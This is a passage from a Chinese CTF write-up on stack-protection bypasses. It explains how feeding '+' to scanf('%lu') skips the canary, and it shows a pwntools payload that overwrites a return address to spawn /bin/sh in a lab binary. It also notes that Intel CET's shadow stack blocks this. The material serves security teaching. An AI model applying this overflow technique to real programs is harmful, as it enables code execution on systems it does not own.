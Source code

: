     ```

> [!NOTE] 
> 解法的设计也是想说明「粗糙的保护可能反而会带来安全风险」，例如这里的伪·影子栈给栈迁移提供了便利。

完整利用脚本见 [canary_bypass-exp.py](./src/canary_bypass-exp.py)。

### CET Bypass

这道题主要是想介绍一下 Intel CET 提供的影子栈保护，顺带看看新版 gcc 编译 `try-catch` 时更完善的栈保护。

题目中存在后门：通过篡改返回地址为 `banner` 函数 `try` 块内地址，就能调用 `system` 函数，而参数来源于 `banner` 函数的局部变量。

不过来到具体利用上，还需要解决几个问题：

1. `throw` 前检查 `canary`，如此保护，如何溢出？

    如前所述，新版本的 `g++` 会在异常处理中 `throw` 前添加 `canary` 检查。

    对比源码可以发现，两小题对输入的处理不同。本题中的 `scanf` 是可以输入加号 `+` 来绕过的：

    ```c
    scanf("%lu", &(buf[i]));
    ```

2. `system` 的参数如何设置？

    观察源码可以发现 `system` 参数来自 `main` 函数的局部变量，因此通过栈上的溢出也可以实现参数控制。

3. 影子栈在哪里？

    现在可以得到 payload 如下，用常规方法启动程序已经可以完成利用了：

    ```python
    PLACEHOLDER = 0xDEADBEEFCAFE
    BIN_SH = u64(b"/bin/sh\x00")
    TARGET_ADDR = 0x0000000000401913

    send_num = lambda x: io.sendline(b"+" if x == PLACEHOLDER else str(x).encode())

    payload = [
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        TARGET_ADDR,
        PLACEHOLDER,
        PLACEHOLDER,
        BIN_SH,
        0x31337,
    ]

    io.recvuntil(b"Please share your lucky number.\n")
    for i in payload:
        send_num(i)
    ```

    但是使用 `sde64 -cet -- /src/cet-bypass` 运行会发现上述利用失败了，这就是影子栈在发挥作用了。
